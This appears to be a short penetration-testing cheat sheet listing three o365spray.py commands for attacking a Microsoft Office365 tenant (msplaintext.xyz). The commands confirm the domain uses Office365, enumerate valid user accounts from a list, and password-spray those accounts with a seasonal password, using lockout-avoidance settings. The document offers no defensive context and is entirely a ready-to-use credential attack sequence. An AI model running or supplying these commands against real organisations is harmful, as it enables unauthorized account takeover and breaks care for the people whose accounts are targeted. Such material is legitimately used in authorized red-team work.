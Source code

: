 # Office365

## Bruteforce office 365



| Command                                                                                                         | Description                                                                            |
| --------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------- |
| `python3 o365spray.py --validate --domain msplaintext.xyz`                                                      | Verify the usage of Office365 for the specified domain.                                |
| `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`                                             | Enumerate existing users using Office365 on the specified domain.                      |
| `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz` | Password spraying against a list of users that use Office365 for the specified domain. |
